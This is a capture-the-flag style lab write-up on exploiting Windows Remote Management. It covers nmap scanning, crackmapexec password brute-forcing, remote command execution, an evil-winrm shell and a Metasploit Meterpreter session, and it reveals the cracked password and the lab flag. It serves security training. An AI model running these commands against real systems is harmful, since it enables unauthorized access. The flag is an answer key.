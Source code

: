 # 🔬WinRM

## Lab 1

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> - Target IP: `10.4.30.175`
> - **WinRM** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.30.175

nmap --top-ports 7000 10.4.30.175
```

```bash
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

```bash
nmap -sV -p 5985 10.4.30.175
```

```bash
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

![nmap](.gitbook/assets/image-20230315000010576.png)

### CrackMapExec Brute-force

- Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`

```bash
crackmapexec
```

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![crackmapexec WinRM](.gitbook/assets/image-20230315000524275.png)

- Execute specific Windows commands

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"
```

![crackmapexec WinRM](.gitbook/assets/image-20230315000751847.png)

### evil-WinRM Shell

- Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175
```

![evil-winrm](.gitbook/assets/image-20230315001019987.png)

### Meterpreter Session

```bash
msfconsole
```

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.4.30.175
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

![Metasploit winrm_script_exec](.gitbook/assets/image-20230315001646402.png)

<details>
<summary>Reveal Flag: 🚩</summary>


`3c716f95616eec677a7078f92657a230`

![](.gitbook/assets/image-20230315001135557.png)

</details>

------


